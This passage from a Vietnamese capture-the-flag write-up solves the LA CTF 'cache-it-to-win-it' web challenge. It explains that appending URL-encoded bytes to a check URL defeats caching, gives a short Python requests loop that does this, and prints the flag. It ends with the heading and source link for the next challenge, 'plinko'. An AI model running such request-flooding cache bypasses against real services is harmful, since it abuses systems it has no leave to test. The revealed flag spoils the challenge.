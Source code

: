 Từ đó mình có thể sử dụng %00 -> %20 mỗi cái 10 lần thì chắc chắn count down được từ 100 xuống 0 thôi

Và đây là solve script của mình : 

```python
import requests
url = "https://cache-it-to-win-it.chall.lac.tf/check?uuid=ad53251d-3cc9-41b2-af95-44f7b787ce06"
for i in range(20):
    url2 = url
    for j in range(10):
        url2 += str('%'+'%02d'%i)
        r = requests.get(url2)
        print(r.text)
```

Sau khi chạy thì ta có flag

![image](./images/image71.png)

`Flag: lactf{my_c4ch3_f41l3d!!!!!!!}`

## plinko

![image](./images/image72.png)

### Source

https://drive.google.com/file/d/1qgN9ZaWqeuyOYgj4VkZBpBuFV9QOLFlV/view?usp=sharing
